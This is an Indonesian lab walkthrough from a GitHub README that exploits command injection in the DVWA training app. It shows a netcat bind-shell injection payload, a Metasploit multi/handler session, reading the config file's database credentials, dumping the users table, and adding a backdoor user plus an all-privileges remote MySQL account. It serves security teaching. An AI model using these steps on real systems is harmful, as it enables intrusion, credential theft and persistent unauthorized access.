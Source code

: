 # Lesson 4 - Using Metasploit with Command Execution

## Perhatian!!

1. Menggunakan Fedora dan Backtrack, karena:
	* menggunakan Backtrack karena Versi metasploit pada kali sudah lebih baru dan selalu menjalankan perintah exploit sebagai job
	* menggunakan fedora karena diharuskan mematikan selinux


## Set DVWA dengan low Security

1. Login pada dvwa
	* username: admin
	* password: password
2. Lalu set Security menjadi low
	* klik "DVWA security"
	* set menjadi *low*

![1 set fedora low](https://user-images.githubusercontent.com/17487644/34214252-7e60bd60-e5d4-11e7-98bf-1cef8db4e81f.png)

3. Jalankan	Script
	* klik "Command Execution"
	* lalu masukan script:
		<IP fedora>;mkfifo /tmp/pipe;sh /tmp/pipe | nc -l 4444 > /tmp/pipe

![2 masuk command execution](https://user-images.githubusercontent.com/17487644/34214253-7f250e40-e5d4-11e7-8e3c-cd6ffffecca1.png)

	* lalu halaman akan berhenti dan selalu loading (menunggu exploit)

![3 submit command](https://user-images.githubusercontent.com/17487644/34214254-7f9760f8-e5d4-11e7-85db-c70ab9d0247a.png)

## Menggunakan Metasploit framework

1. Buka Terminal
2. ketik "msfconsole"
3. Set Payload
	1. use multi/handler
	2. set PAYLOAD linux/x86/shell/bind_tcp
	3. show options
	4. set RHOST <IP Fedora>
	5. exploit
4. Anda telah masuk dalam Netcat DVWA

![4 exploit](https://user-images.githubusercontent.com/17487644/34214255-7fcec304-e5d4-11e7-942d-84f91825ac81.png)

5. Cek akun yang anda gunakan, gunakan command:
	1. whoami
	2. grep apache /etc/passwd
	3. grep apache /etc/group

![whoami](https://user-images.githubusercontent.com/17487644/34214251-7dd8452a-e5d4-11e7-95ba-e5a08f741c88.png)

6. Periksa proses dan hak akses direktori, gunakan command:
	1. ps -eaf | grep http
	2. pwd
	3. ls -ld /var/www/html
	4. ls -ld /var/www/html/dvwa
	5. ls -l /var/www/html/dvwa

![ps -eaf](https://user-images.githubusercontent.com/17487644/34214246-7b2f0fde-e5d4-11e7-998d-5e230aa5acdc.png)

7. Periksa Database, gunakan command:
	1. ls -l /var/www/html/dvwa/config
	2. cat /var/www/html/dvwa/config/config.inc.php

![ls config cat](https://user-images.githubusercontent.com/17487644/34214233-78a5d95a-e5d4-11e7-9577-5daaa7c0d08b.png)

8. Periksa Mysql, gunakan command:
	* Disini menggunakan username root dan password tooroot
	1. echo "show databases;" | mysql -u<USERNAME> -p<PASSWORD>
	2. echo "use dvwa; show tables;" | mysql -u<USERNAME> -p<PASSWORD>
	3. echo "use dvwa; desc users;" | mysql -u<USERNAME> -p<PASSWORD>
	4. echo "select * from dvwa.users;" | mysql -u<USERNAME> -p<PASSWORD>

![sql exploration](https://user-images.githubusercontent.com/17487644/34214249-7c9a1a9e-e5d4-11e7-9202-c4b906397a27.png)

9. Buat user baru
	* Disini digunakan:
		* First name = "Aldi"
		* Last name = "Makan"
		* username = "Pangsit"
	1. echo "insert into dvwa.users values ('6','Aldi','Makan','Pangsit',MD5('123456'),'NA');" | mysql -u<USERNAME> -p<PASSWORD>
	2. echo "select * from dvwa.users;" | mysql -u<USERNAME> -p<PASSWORD>

![messageimage_1513697543123](https://user-images.githubusercontent.com/17487644/34214934-70e0a93c-e5d6-11e7-9af5-249220c6388f.jpg)

10. Menampilkan informasi tabel Mysql, menggunakan command:
	1. echo "show databases;" | mysql -u<USERNAME> -p<PASSWORD>
	2. echo "use mysql; show tables;" | mysql -u<USERNAME> -p<PASSWORD>
	
![messageimage_1513697766099](https://user-images.githubusercontent.com/17487644/34214935-7129f448-e5d6-11e7-994c-ca472309b6a1.jpg)

11. Buat user Mysql baru, menggunakan command:
	1. echo "use mysql; GRANT ALL PRIVILEGES ON *.* TO 'Aldi_Haxx'@'%' IDENTIFIED BY '123456' WITH GRANT OPTION;" | mysql -u<USERNAME> -p<PASSWORD>
	2. echo "select * from mysql.user;" | mysql -u<USERNAME> -p<PASSWORD>

![messageimage_1513698309946](https://user-images.githubusercontent.com/17487644/34214937-7177cf60-e5d6-11e7-9326-52c0d0675a13.jpg)

## Bukti Selesai Lesson 4
1. Gunakan terminal baru
2. mysql -u <USERNAME> -h <IP fedora>-p
	* username tadi yang telah dibuat (tadi menggunakan Aldi_Haxx)
	* lalu inputkan password yang tadi dibuat
3. show databases;

![messageimage_1513698571941](https://user-images.githubusercontent.com/17487644/34214932-6f8ae868-e5d6-11e7-8c52-f347cb9c08e3.jpg)